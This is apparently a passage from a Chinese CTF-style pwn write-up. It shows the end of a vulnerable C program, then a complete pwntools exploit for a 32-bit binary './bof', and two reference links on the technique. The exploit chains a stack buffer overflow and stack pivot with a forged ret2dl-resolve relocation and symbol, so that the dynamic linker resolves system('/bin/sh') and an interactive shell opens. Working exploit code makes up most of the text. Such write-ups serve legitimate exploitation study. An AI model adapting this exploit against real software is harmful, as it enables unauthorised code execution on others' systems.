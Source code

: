 ```c
    vuln();
    return 0;
}
```



exp:

```python
from pwn import*
context.log_level = 'debug'
p = process('./bof')
elf = ELF('./bof')
base_stage = 0x804a800
p3_ret = 0x804856c 
leave_ret = 0x8048481
pebp_ret = 0x8048453

payload1 = 'a'*112+p32(elf.plt['read'])+p32(p3_ret)+p32(0)+p32(base_stage)+p32(0x200)
payload1 += p32(pebp_ret)+p32(base_stage)+p32(leave_ret)

fake_rel_addr = base_stage+0x50
fake_sym_addr = base_stage + 0x68
system_str = base_stage + 0x80
sh = base_stage+0x90
plt_start = elf.get_section_by_name('.plt').header.sh_addr
rel_plt0 = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym0 = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr0 = elf.get_section_by_name('.dynstr').header.sh_addr

rel_offset = fake_rel_addr - rel_plt0
r_info = ((fake_sym_addr - dynsym0)/0x10)<<8
r_info += 7
fake_rel = p32(elf.got['write'])+p32(r_info)
fake_sym = p32(system_str-dynstr0)+p32(0)+p32(0)+p32(0x12)

payload2 = p32(0)+p32(plt_start)
payload2 += p32(rel_offset)+p32(0)+p32(sh)
payload2 = payload2.ljust(0x50,'\x00')
payload2 += fake_rel.ljust(0x10,'\x00')
payload2 += ('\x00'*8+fake_sym).ljust(0x20,'\x00')
payload2 += 'system'.ljust(0x10,'\x00')
payload2 += '/bin/sh'.ljust(0x10,'\x00')

#gdb.attach(p,'b *'+str(leave_ret))
p.sendafter('!',payload1)
pause()
#sleep(1)
p.send(payload2)

p.interactive()

```





参考链接：

http://pwn4.fun/2016/11/09/Return-to-dl-resolve/

https://ray-cp.github.io/archivers/ret2dl_resolve_analysis